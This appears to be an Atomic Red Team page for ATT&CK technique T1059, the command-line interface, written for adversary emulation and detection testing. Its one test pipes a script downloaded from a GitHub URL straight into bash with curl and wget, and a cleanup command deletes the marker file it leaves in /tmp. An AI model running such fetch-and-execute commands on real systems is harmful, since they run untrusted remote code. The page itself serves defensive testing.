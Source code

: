 # T1059 - Command-Line Interface
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1059)
<blockquote>Command-line interfaces provide a way of interacting with computer systems and is a common feature across many types of operating system platforms. (Citation: Wikipedia Command-Line Interface) One example command-line interface on Windows systems is [cmd](https://attack.mitre.org/software/S0106), which can be used to perform a number of tasks including execution of other software. Command-line interfaces can be interacted with locally or remotely via a remote desktop application, reverse shell session, etc. Commands that are executed run with the current permission level of the command-line interface process unless the command includes process invocation that changes permissions context for that execution (e.g. [Scheduled Task](https://attack.mitre.org/techniques/T1053)).

Adversaries may use command-line interfaces to interact with systems and execute other software during the course of an operation.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Command-Line Interface](#atomic-test-1---command-line-interface)


<br/>

## Atomic Test #1 - Command-Line Interface
Using Curl to download and pipe a payload to Bash. NOTE: Curl-ing to Bash is generally a bad idea if you don't control the server.

Upon successful execution, sh will download via curl and wget the specified payload (echo-art-fish.sh) and set a marker file in `/tmp/art-fish.txt`.

**Supported Platforms:** macOS, Linux





#### Attack Commands: Run with `sh`! 


```sh
curl -sS https://raw.githubusercontent.com/emrahkaya/atomic-red-team/feature/v6/atomics/T1059/echo-art-fish.sh | bash
wget --quiet -O - https://raw.githubusercontent.com/emrahkaya/atomic-red-team/feature/v6/atomics/T1059/echo-art-fish.sh | bash
```

#### Cleanup Commands:
```sh
rm /tmp/art-fish.txt
```





<br/>
